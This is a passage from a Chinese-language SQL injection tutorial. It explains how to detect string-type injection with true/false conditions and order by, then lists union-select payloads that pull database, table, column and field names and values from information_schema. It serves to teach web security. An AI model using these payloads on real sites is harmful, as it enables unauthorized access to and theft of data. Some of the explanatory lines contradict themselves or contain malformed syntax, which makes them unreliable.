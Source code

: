 由于加单引号后变成三个单引号，则无法执行，程序会报错；

（2） 加 ' and 1=1 此时sql 语句为：select * from table where name='admin' and 1=1' ，也无法进行注入，还需要通过注释符号将其绕过；

因此，构造语句为：select * from table where name ='admin' and 1=--' 可成功执行返回结果正确；

（3） 加and 1=2— 此时sql语句为：select * from table where name='admin' and 1=2–'则会报错；

如果满足以上三点，可以判断该url为字符型注入。

同时，这种类型我们可以使用 and ‘1’='1 和 and ‘1’='2来判断：

Url 地址中输入 http://xxx/abc.php?id= x' and '1'='1 页面运行正常，继续进行下一步。
Url 地址中继续输入 http://xxx/abc.php?id= x' and '1'='2 页面运行错误，则说明此 Sql 注入为字符型注入。

**原因如下：**

当输入 and ‘1’='1时，后台执行 Sql 语句：

> select * from <表名> where id = 'x' and '1'='1'语法正确，逻辑判断正确，所以返回正确。

当输入 and ‘1’='2时，后台执行 Sql 语句：

> select * from <表名> where id = 'x' and '1'='2'语法正确，但逻辑判断错误，所以返回正确。

## 6、开始注入

### 6.1 判断列数：

?id=1' order by 4# 报错

?id=1' order by 3# 没有报错，说明存在3列

### 6.2爆出数据库：

?id=-1' union select 1,database(),3--+

?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata#

### 6.3 爆出数据表：

?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库'#

### 6.4 爆出字段：

?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='数据表'#

### 6.5爆出数据值：

?id=-1' union select 1,group_concat(0x7e,字段,0x7e),3 from 数据库名.数据表名--+

### 6.7 拓展一些其他函数：

system_user() 系统用户名

user() 用户名

